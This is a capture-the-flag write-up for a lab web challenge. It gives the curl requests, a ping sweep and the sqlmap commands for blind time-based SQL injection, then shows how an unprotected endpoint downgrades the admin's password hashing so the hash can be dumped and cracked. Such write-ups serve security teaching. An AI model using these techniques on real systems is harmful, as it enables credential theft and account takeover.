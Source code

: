 # Solution

Starting by looking through the code, we can note a few interesting things.

- MySQL driver are use.
- There is a changeHash endpoint that changes the hash algorithm for a user using userid and is not protected.
- There is an input that is not sanitized in the getUserID endpoint which make it vulnerable to SQL injection, but it is not directly use in a login form and no data is returned.
- In the register endpoint, if trying to register with an existing username, it will return the userid of the username in the URL.
- We can see to the database schema.

For this solution, we start by defining the IP and port of the server.

```shell
ip=<ip>
port=<port>
```

## UserID

Then we register a user with the username admin so we can get the userid.

```shell
curl  -Ls -o /dev/null -w %{url_effective} "http://$ip:$port/register" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=admin&password=password&email=email%40mail.com&name=name' \
  --insecure
```

So admin userid is 1.

## SQLi

SQL injection is possible in the getUserID endpoint. Since we do not get any data back and is not use in a login form, we can use a blind time-based injection to get the hash of the password. Using SQLMap, since this type of injection is really slow, we can order by id, which will start with 1 and therefore start with the admin and we can also use the ssh client offered to reduce network lag with the password `marbled-casino-zodiac-composer` and do a ping sweep to detect the ip of the webserver.
Since the injection is on the username, we should use a username that doesn't exist. Otherwise, the server calculate the hash everytime, which takes a lot of time for bcrypt 16. 

```shell
ssh user@<ip_client>
bash
ifconfig
for i in {1..254} ;do (ping -c 1 <base_ip>.$i | grep "bytes from" &) ;done
```

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
```

When we see that it starts with `$2a$16$`, which is 'bcrypt' with 16 rounds, we can stop since it is very slow to crack.

![alt text](sqlmap_1.png)

## Change Hash

Get the hashing algorithms:

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T

Database: userDB
Table: HashingAlgorithm
[3 entries]
+----+-------------+-------+
| id | algo        | round |
+----+-------------+-------+
| 1  | bcrypt      | 10    |
| 2  | sha256      | 64    |
| 3  | blake2b_256 | 1     |
+----+-------------+-------+
```

![alt text](sqlmap_2.png)

We can change the hashing algorithm of the admin for blake2b with 1 round, which is very fast to crack.

```shell
curl "http://$ip:$port/changeHash" \
  --data-raw 'userid=1&algoid=3' \
  --insecure
```

Next time, the admin login, the password will be changed. In the information given in the challenge and in the admin_login.sh script, we can see it should be every 30 seconds.

## SQLi 2

Running SQLMap again, we can see that the hash is now blake2b with 1 round.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session

+----+------------------------------------------------------------------+------------+
| id | password_hash                                                    | salt       |
+----+------------------------------------------------------------------+------------+
| 1  | 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 | WKgDlQLWIE |
+----+------------------------------------------------------------------+------------+
```

![alt text](sqlmap_3.png)

## Crack

Using a simple script like solve.go, we can crack the hash in a few seconds.

```shell
go run solve.go 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 WKgDlQLWIE rockyou.txt
Password found:  drakthull1
```

So the flag is: `flag-drakthull1`
